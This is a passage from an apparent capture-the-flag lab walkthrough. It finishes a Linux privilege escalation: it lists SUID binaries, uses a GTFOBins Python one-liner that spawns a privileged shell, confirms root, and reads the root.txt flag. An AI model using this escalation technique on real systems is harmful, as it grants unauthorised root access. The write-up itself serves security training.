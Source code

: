 ```bash
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
25. `firefox https://gtfobins.github.io/gtfobins/python/` to launch our Mozilla Firefox web browser and direct it to the specified URL, and then search for Python payloads that would allow us to elevate our current privileges
26. `python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’` to execute a Bourne shell (sh) with elevated privileges as sudo using the Python interpreter
27. `whoami` to check if we're now successfully connected as root
```bash
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
#
```
```bash
# whoami
whoami
root
```
28. `find / -type f -name root.txt 2>/dev/null` to search for the **root.txt** file in the entire file system ("/") and display the path of any matching files while suppressing any error messages that may occur during the search
29. `cat {ROOT.TXT FILE PATH}` to display contents of the root.txt file on the terminal
```bash
# find / -type f -name root.txt 2>/dev/null
find / -type f -name root.txt 2>/dev/null
/root/root.txt
```
```bash
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
